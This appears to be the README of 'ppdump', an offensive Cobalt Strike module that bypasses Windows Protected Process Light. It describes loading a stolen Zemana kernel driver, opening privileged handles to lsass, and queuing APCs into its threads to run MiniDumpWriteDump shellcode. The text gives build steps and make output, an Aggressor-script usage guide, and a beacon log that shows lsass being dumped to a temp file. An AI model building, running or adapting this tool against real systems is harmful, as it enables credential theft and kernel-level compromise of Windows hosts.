 ## About

Protected Process (Light) on the latest iterations of Microsoft Windows has become the bane of most attackers - it prevents tools such as Mimikatz from obtaining a privileged handle to critical processes such as lsass, winlogon, and crss, all of which control the Microsoft kernel in various ways. As such, I studied various means of attacking the kernel and discovered one particular way which succeeded - using a stolen kernel driver to open a privileged handle the process and its underlying threads.

Using these privileged handles, I was able to successfully "APC Bomb" each individual threads until it reached an altertable state by using QueueUserAPC, and Stomping / Resuming the threads a multitude of times. 

### Build

The ppdump module can be built using `Make` and `Mingw-W64`. Simply download the make build system using your favorite package manager, as well the Mingw compiler package, and then run `make`. 

```sh 
$ make
make -f Makefile.x64
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x64.h src/zam.x64.h
cp -rf src/shellcode/payload.x64.h src/payload.x64.h
x86_64-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x64.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public'
make -f Makefile.x86
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x86.h src/zam.x86.h
cp -rf src/shellcode/payload.x86.h src/payload.x86.h
i686-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x86.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public
$ file ppdump.x64.dll ppdump.x64.dll
```

### Usage

Firstly, load the provided Cobalt Strike Aggresor Script into your script resource / console. Afterwards, using `ppdump` command with the provided PID (Process ID) of the target process - pass `ppdump <pid>`, which will kick off the Reflective Module loading process, and then start initializing the driver. A successful run with the process ID of Lsa should result in the following.

```
beacon> ppdump 820
[ ] driver will be stored in C:\WINDOWS\TEMP\tiGr4.sys
[ ] minidump will be stored in C:\WINDOWS\TEMP\usaxb.dmp
[+] Wrote 232792 to C:\WINDOWS\TEMP\tiGr4.sys successfully
[ ] attemping to load C:\WINDOWS\TEMP\tiGr4.sys with service control manager
[ ] registered service tiGr4.sys successfully
[ ] started service tiGr4.sys successfully
[+] LoadDriver() successfully loaded the driver
[ ] Calling ZemanaRegisterProcess() to add 3616
[ ] Opening target process -> 820

 ======= ENTER THE DANGER ZONE =======
[ ] MiniDumpWriteDump Shellcode is 1025 bytes
[ ] Attemping to APC Bomb All Threads
[+] apc successfully queued for 836
[+] apc successfully queued for 848
[+] apc successfully queued for 852
[+] apc successfully queued for 864
[+] apc successfully queued for 3456
[+] apc successfully queued for 4044
[+] apc successfully queued for 344
 ======= LEAVE THE DANGER ZONE =======

[ ] deleted service tiGr4.sys successfully
```

![](https://gitlab.guidepointsecurity.com/austin-hudson/ppdump/blob/master/ppldump_x64_proof_apc_bomb.png)

## Bugs
**NOTE**: Please do not run multiple instances of the ppdump command - wait until one has completed before running another. This is because only one driver can be loaded at a time - so if two are loaded at the same time, the process tends to break quiet quickly. Furthermore some of the threads will lock up during the injection process.
